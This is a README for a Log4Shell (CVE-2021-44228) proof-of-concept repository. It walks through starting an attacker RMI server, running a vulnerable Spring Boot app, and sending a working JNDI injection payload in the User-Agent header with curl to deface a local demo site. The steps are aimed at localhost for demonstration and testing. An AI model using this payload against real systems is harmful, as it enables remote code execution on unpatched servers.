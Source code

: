 # Demonstration of the Log4jShell Exploit

This code may contain malware and is known to contain vulnerabilities. 

Use at your own risk - if you use it, be advised to do that in a VM  - discard the VM after use.

# log4shell-rmi-poc

A Proof of Concept of the Log4j vulnerability (CVE-2021-44228) over Java-RMI
It uses Log4j 2.5.7 from spring-boot-starter-log4j2

## Requirements:

Tested with Java 8 (JDK 1.8.0_25), Java 11 (JDK 11.0.1) and Java 19 (openjdk 19.0.2)

## How to run the POC

### 1. Clone the repo:

```bash
git clone https://github.com/Labout/log4shell-rmi-poc.git
```

### 2. Start the attacker RMI Server

```bash
cd log4jshell-rmi-server
./startRmiServer.sh 
```

You should get something like this:

```
a target/classes/static
a target/classes/static/index.html
a target/classes/static/img
a target/classes/static/img/wc.png
Starting malicious RMI Server
Creating evil RMI registry on port 1099
Bind remote exploit to 'WannaCry'
```

### 3. Start the vulnerable Log4j application (a simple spring boot application)

In a new Terminal 

```bash
cd vulnerable-log4j-app
./startVulnerableService.sh
```

### 4. Show the original site (a dummy web-site)

```bash
open http://localhost:8080
```

The original website is opened in your browser.


### 5. Inject a vulnerable JNDI over the "User-Agent" header 

```bash
curl http://localhost:8080/hello --header 'User-Agent: ${jndi:rmi://127.0.0.1:1099/WannaCry}'
```

The website gets updated with the data provided from malicious RMI server that has been started in the first step.

> [!NOTE]
> To protect against real exploitation, this must be done from a client located at 127.0.0.1.

### 6. Show the now hacked site

```bash
open http://localhost:8080
```

(or just shift-reload in your browser). The hacked website is returned.

## References 

* https://www.cisecurity.org/log4j-zero-day-vulnerability-response/
* https://www.lunasec.io/docs/blog/log4j-zero-day/
